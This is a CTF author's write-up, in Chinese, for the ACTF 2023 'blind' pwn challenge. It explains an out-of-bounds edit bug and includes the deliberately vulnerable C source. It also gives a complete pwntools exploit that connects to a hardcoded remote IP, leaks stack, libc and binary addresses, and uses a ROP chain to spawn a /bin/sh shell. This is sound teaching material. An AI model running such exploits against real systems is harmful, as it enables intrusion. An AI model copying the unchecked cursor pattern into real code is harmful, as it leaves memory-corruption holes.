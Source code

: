 # ACTF2023 blind WP

## 解题思路

这道题提供了字符编辑功能，玩两下就可以发现存在越界编辑

改改周围看下会发生什么——

```
[A]aaaaaa
> 8DW
aaaaaa 
> AS
Aaaaaaa[]
```

当右移8再+1后，我们发现输出位置改变了，说明改到了字符串指针，那么`8D8W`就可以输出这个指针本身的值，发现是`0x7fff`开头的栈上地址。那么只要修改这个指针就可以dump stack。

然后搞清楚程序修改的机制：首先显而易见的有两个指针——一个是每次输出字符串name的地址，一个是当前修改的位置。那么修改的位置是独立指针，还是基于名字的偏移？我们发现在`8DW`后需要`AS`才能恢复原状，也就是说在修改指针地址后，当前修改的位置也偏移了。这就说明输出的是指针，而`[]`是一个下标。于是我们大概可以还原出这样的代码：

```c
switch(toupper(ch)) {
    case 'W': p[cursor] += times; break;
    case 'A': cursor -= times; break;
    case 'S': p[cursor] -= times; break;
    case 'D': cursor += times; break;
    case ' ': p[cursor] ^= 0x20; break;
    case '\n': break;
    default : printf("Invalid: %c\n", ch);   break;
}
```

还有一个问题是，修改指针后是否立即生效？试一下`8DWS`发现输出还是Aaaaaaa，说明修改偏移是即时的，而修改指针会在下一次生效。也就是说修改时传入的是指针副本。于是又可以还原出一些逻辑。

```c
int main() {
	char namebuf[0x8];
    char *ptr = namebuf;
...
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr)); // 传入了指针的副本，当次修改不影响指向
    printf("Hello, %s!\n", ptr);
    return 0;
}
```

这样就可以任意修改和泄露了。栈上有libc、elf以及栈的地址，泄露后把偏移改到`elf&0xfffffffff000`的位置leak，然后ROPGadget找到`pop rdi; ret`的地址，用DynELF解`system`，把名字改成`/bin/sh`，ret2csu即可。（作为一个良心出题人，给大家用了2.31。如果是2.35就要去dump libc了;）

exp：

```python
#! /usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    : std.py
@Time    : 2023/10/6 Mon 19:02:36
@Author  : Wh1sper
@Desc    : exp for ACTF 2023 blind
'''

from pwn import *

context.update(arch='amd64', os='linux', log_level='debug', timeout=None)

io = remote('120.46.65.156', 32104)

base, offset = 0, 0
def Off(pos): # 将[]修改到指定偏移
    global offset
    cnt = pos - offset
    offset = pos
    if cnt > 0:
        return str(cnt).encode() + b'D'
    else:
        return str(-cnt).encode() + b'A'

def setval(_offset, orig, to): # 修改base[_offset]的值为to，需要知道original
    payload = b''
    for (i, (b, a)) in enumerate(zip(orig, to)):
        change = a - b
        if change != 0:
            payload += Off(_offset + i)
        if change > 0:
            payload += str(change).encode() + b'W'
        elif change < 0:
            payload += str(-change).encode() + b'S'
    return payload

def Base(addr): # 将base指针修改到指定位置
    global base
    payload = setval(stack_addr - base, p64(base), p64(addr))
    base = addr
    return payload

def leak(addr): # base到指定位置然后输出
    payload = Base(addr) + Off(-1)
    io.sendlineafter(b"> ", payload)
    ret = io.recvuntil(b'\n> ', drop=True)
    io.unrecv(b'> ')
    return ret

def dump_elf(baseaddr):
    with open('dump', 'wb') as f:
        for i in range(0x1000 // 8):
            print(hex(i))
            f.write(leak(baseaddr + i * 8))
    print("dump done.")
    exit(0)

payload = setval(0, b'Aaaaaaa', b'/bin/sh')
io.sendlineafter(b"\n> ", payload)

payload = Off(8) + b'8W'
io.sendlineafter(b"> ", payload)
stack_addr = u64(io.recvuntil(b"\n", drop=True))
log.success(f'Leak stack: {stack_addr:#014x}')
base = stack_addr

# Step 1: View stack.
# for i in range(20):
#     print(f"{i:#x}: {u64(leak(stack_addr + i * 8)):#014x}")
# exit(0)

libc_addr = u64(leak(stack_addr + 0x10))
log.success(f'Leak libc: {libc_addr:#014x}')
elf_addr = u64(leak(stack_addr + 0x28))
log.success(f'Leak elf: {elf_addr:#014x}')

# Step 2: Dump elf
# dump_elf(elf_addr & 0xfffffffff000)

d = DynELF(leak, libc_addr, libcdb=False)
system_addr = d.lookup('system', 'libc')
log.success(f'Leak system: {system_addr:#014x}')

val_0x18 = u64(leak(stack_addr + 0x18))
val_0x20 = u64(leak(stack_addr + 0x20))
poprdi_ret = 0x5db + (elf_addr & 0xfffffffff000) # ROPgadget --binary dump --rawArch=x86 --rawMode=64 | grep "pop rdi ; ret"
io.sendlineafter(b"> ", Base(stack_addr))
io.sendlineafter(b"> ", setval(0x10, p64(libc_addr), p64(poprdi_ret))) # poprdi, ret
io.sendlineafter(b"> ", setval(0x18, p64(val_0x18), p64(stack_addr - 8))) # binsh_addr
io.sendlineafter(b"> ", setval(0x20, p64(val_0x20), p64(poprdi_ret + 1))) # ret
io.sendlineafter(b"> ", setval(0x28, p64(elf_addr), p64(system_addr))) # system
io.sendlineafter(b"> ", b'')

context.log_level = 'info'
io.interactive()

```

## 解题情况

大家的解法和官方解相差无几。一些队伍leak libc地址后查到了版本是`Debian GLIBC 2.31-13+deb11u7`，可以不用dump直接打ROP。

星盟的师傅非常牛逼，在不dump程序的情况下爆破到了ROP gadget。具体做法是：

1. 由于8A（name往低8字节）存放了返回地址，所以把name修改为栈上泄露的elf地址，通过name-0x8位置爆破前面泄露出来的elf函数附近的ret。
2. 通过布置栈（将返回地址放到name[0x30]），爆破csu的pop6_gadget。

这样就无需dump可以直接打了（需要用DynELF解出system地址），666

## 题目源码

不同gcc版本编译偏移可能会有变化，题目用的镜像是`debian 11(bullseye)`

```c
// gcc src.c -o blind
#include <stdio.h>
#include <stdlib.h>
#include <ctype.h>
#include <string.h>

ssize_t cursor = 0;
int process(char *p) {
    char *ops = NULL;
    int has_d = 0;
    size_t bufsize;
    ssize_t i = 0, len, rep;
    if ((len = getline(&ops, &bufsize, stdin)) == -1) {
        puts("Error.");
        exit(EXIT_FAILURE);
    } else if (len == 1) {
        free(ops);
        return 0;
    }
    while (i < len) {
        char ch = ops[i++];
        ssize_t times;
        if (isdigit(ch)) {
            rep = rep * 10 + (ch - '0');
            has_d = 1;
            continue;
        }
        times = has_d ? rep : 1;
        switch(toupper(ch)) {
            case 'W': p[cursor] += times; break;
            case 'A': cursor -= times; break;
            case 'S': p[cursor] -= times; break;
            case 'D': cursor += times; break;
            case ' ': p[cursor] ^= 0x20; break;
            case '\n': break;
            default : printf("Invalid: %c\n", ch);   break;
        }
        rep = 0;    has_d = 0;
    }
    free(ops);
    return 1;
}
void print(char *p) {
    int i;
    for (i = 0; i < 0x8; ++i) {
        if (i == cursor)
            printf("[%c]", p[i]);
        else
            printf("%c", p[i]);
    }
}
int main() {
    char namebuf[0x8];
    char *ptr = namebuf;
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    memset(namebuf, 'a', sizeof(namebuf));
    namebuf[0] ^= 0x20;
    namebuf[sizeof(namebuf) - 1] = 0;
    puts("Welcome to ACTF, type your name here.");
    puts("Use A/D to move, W/S to change letter, <Space> to change Capital. You can add prefix n to repeat W/A/S/D command(3A2W = AAAWW), just like vi. When you finish it, send a single <Enter> to submit.");
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr));
    printf("Hello, %s!\n", ptr);
    return 0;
}

```

